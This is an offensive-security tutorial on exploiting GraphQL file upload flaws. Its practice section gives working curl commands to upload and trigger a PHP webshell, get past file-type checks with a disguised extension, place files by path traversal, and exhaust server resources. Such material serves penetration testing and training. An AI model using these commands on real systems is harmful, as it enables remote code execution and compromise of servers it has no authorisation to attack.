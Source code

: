 ```yaml
---
title: Exploiting GraphQL File Upload Vulnerabilities
description: Learn techniques to exploit GraphQL file upload vulnerabilities for code
  execution and data access.
keywords:
- GraphQL file upload
- vulnerabilities
- multipart/form-data
- path traversal
- malicious file upload
- file type validation
- remote code execution
- resource exhaustion
---
```


# File Upload Exploitation

## Context

This article teaches the exploitation of insecure GraphQL file upload mechanisms, enabling offensive operators to perform actions such as code execution, unauthorized data access, or further system compromise. It assumes that the reader is familiar with the structure of GraphQL schemas, HTTP multipart/form-data requests, general file upload mechanisms within web applications, and basic GraphQL injection techniques.

## Theory

### GraphQL File Upload Mechanisms

In GraphQL, file uploads are typically handled through multipart/form-data requests. These requests are linked to GraphQL mutations that accept file input. The core principle here is that file upload mutations map file variables to server-side storage locations or processing routines. The typical data flow begins with the client sending a multipart request; the GraphQL resolver then processes the file, eventually leading to the file being stored or parsed on the server.

### Vulnerabilities in GraphQL File Uploads

Common vulnerabilities present in GraphQL file uploads include:

- **Insufficient file type validation:** This allows the upload of executable or malicious files.
- **Improper file path handling:** This makes possible directory traversal or file overwrites.
- **Lack of size restrictions:** This opens up avenues for resource exhaustion or bypassing intended limits.
- **Insecure file inclusion:** This vulnerability permits the execution or inclusion of uploaded files by the application.

### Attacker Techniques for Exploiting File Uploads

To exploit these vulnerabilities, attackers might:

1. Identify the file upload mutation and accepted file types through introspection or documentation.
2. Craft multipart/form-data requests with malicious payloads or files with bypassed extensions.
3. Use path traversal in file variables to control the upload destination.
4. Trigger execution or inclusion of the uploaded file through subsequent GraphQL queries or direct access.

## Practice

### Malicious File Upload via GraphQL Mutation

To upload a PHP webshell using a crafted GraphQL file upload mutation, execute the following:

```bash
curl -X POST http://target/graphql \
  -F operations='{"query": "mutation ($file: Upload!) { uploadFile(file: $file) { url } }", "variables": {"file": null}}' \
  -F map='{ "0": ["variables.file"] }' \
  -F 0=@shell.php;type=application/x-php
```

- **Check the response:** Look for the uploaded file URL.

To trigger the uploaded webshell and execute a command:

```bash
curl http://target/uploads/shell.php?cmd=id
```

**Outcome:** This attack leads to remote code execution, granting the attacker the ability to execute arbitrary commands via the uploaded file.

### File Type Validation Bypass

Rename the payload to bypass simple extension checks:

```bash
mv shell.php shell.php.jpg
```

Upload the disguised payload by setting the MIME type as an image:

```bash
curl -X POST http://target/graphql \
  -F operations='{"query": "mutation ($file: Upload!) { uploadFile(file: $file) { url } }", "variables": {"file": null}}' \
  -F map='{ "0": ["variables.file"] }' \
  -F 0=@shell.php.jpg;type=image/jpeg
```

- **Access the uploaded file:** Confirm it allows execution or inclusion.

**Outcome:** This technique bypasses input validation by accepting malicious files despite type restrictions.

### Path Traversal in File Upload

Exploit path traversal by controlling upload destination:

```bash
curl -X POST http://target/graphql \
  -F operations='{"query": "mutation ($file: Upload!, $path: String!) { uploadFile(file: $file, path: $path) { url } }", "variables": {"file": null, "path": "../../public/shell.php"}}' \
  -F map='{ "0": ["variables.file"] }' \
  -F 0=@shell.php;type=application/x-php
```

- **Confirm file placement:** Verify it was written outside the intended directory.

**Outcome:** This enables attackers to write files to any server location, exploiting path traversal vulnerabilities.

### Oversized File Upload for Resource Exhaustion

Generate a large file to challenge upload size restrictions:

```bash
dd if=/dev/zero of=largefile.jpg bs=10M count=20
```

Attempt to upload this oversized file:

```bash
curl -X POST http://target/graphql \
  -F operations='{"query": "mutation ($file: Upload!) { uploadFile(file: $file) { url } }", "variables": {"file": null}}' \
  -F map='{ "0": ["variables.file"] }' \
  -F 0=@largefile.jpg;type=image/jpeg
```

**Outcome:** This might lead to resource exhaustion, potentially causing a denial of service or bypassing upload size restrictions.

## Tools

- **curl**